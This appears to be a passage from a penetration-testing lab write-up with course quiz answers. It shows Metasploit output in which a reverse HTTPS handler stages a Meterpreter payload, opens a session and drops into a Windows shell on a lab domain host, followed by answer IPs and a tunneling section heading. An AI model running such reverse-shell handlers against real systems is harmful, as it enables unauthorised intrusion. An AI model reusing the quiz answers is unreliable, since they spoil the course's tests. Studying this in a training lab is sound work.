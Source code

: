 ```
   --  ----
   0   Wildcard Target

View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000
[!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: 306nwgsl) Without a database connected that payload UUID tracking will not work!
[*] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: 306nwgsl) Staging x64 payload (201820 bytes) ...
[!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: 306nwgsl) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (127.0.0.1:8000 -> 127.0.0.1:39164) at 2023-02-21 04:44:19 -0500

meterpreter > shell
Process 6136 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>whoami
whoami
inlanefreight\victor
```

Answer is given in the section text.

**Answer:** `172.16.5.129`

### Question 2:
![](./attachments/Pasted%20image%2020230221105236.png)

Answer is given in the section text.

**Answer:** `0.0.0.0`

---
## Meterpreter Tunneling & Port Forwarding
### Question 1:
![](./attachments/Pasted%20image%2020230221114511.png)
*Hint: Try using each of the ping sweep methods shown in the section.*
